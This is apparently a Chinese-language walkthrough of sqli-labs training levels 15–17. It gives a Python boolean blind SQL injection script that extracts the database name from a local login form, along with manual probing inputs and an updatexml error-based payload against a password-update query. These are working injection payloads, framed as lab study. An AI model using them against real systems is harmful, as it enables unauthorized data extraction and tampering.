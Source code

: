 bool盲注，脚本跑一下即可：

```sql
import requests

url = "http://127.0.0.1/sqli-labs/Less-15/"
flag = ''
# 初始数据为空

for i in range(1, 49):
    low = 28
    high = 128
    mid = (high+low)//2
    while low < high:
        payload = "1' or ascii(substr((select database()),{},1))>{}#".format(i, mid)
        datas = {"passwd":'admin' ,'uname': payload,"submit": "Submit"}
        res = requests.post(url=url, data=datas)
        if 'flag.jpg' in res.text:
            low = mid+1
        else:
            high = mid
        mid = (low+high)//2
    if mid == 28 or mid == 128:
        break
    flag = flag+chr(mid)
    print(flag)
```

## Less-16   (“）双引号括号闭合，post时间/bool盲注)

脚本基本一致，修改引号即可。

## Less-17   （单引号闭合update报错注入）



```sql
passwd=admin&uname=admin   正常,显示修改密码成功
passwd=admin&uname=/        错误， 显示hack滚开
passwd=admin&uname=a       (一个字母a，不可能非法，但也如此显示)错误， 显示hack滚开
passwd=admin&uname=admin'    错误， 显示hack滚开
passwd=admin&uname=admin%23   错误， 显示hack滚开
passwd=admin&uname=admin or 1=1%23
passwd=admin&uname=admin' or '1'='1'%23
passwd=admin&uname=admin'%23  错误， 显示hack滚开
由上说明此处是密码修改处，用户名必须正确且存在，否则(有非法字符或者用户名错误或者其他错误)都统一输出错误
因此转移测试点到passwd:
uname=admin&passwd=/   修改成功
uname=admin&passwd=a'   报错如下图一   推断此处为注入点，且为单引号闭合
uname=admin&passwd=a'%23  修改成功 构成闭合
推测后台语句为：
update xxxx set password='passwd' where username='uname'
因为此处passwd前的关键词不是where，且回显只有报错或者语句报错或者成功，所以这里放弃union
联合查询、bool盲注、time盲注，采用显错注入
uname=admin&passwd=a' and|or updatexml(1,concat(0x7e,(select group_concat(flag) from flag)),1)#
得到flag如下图2
```
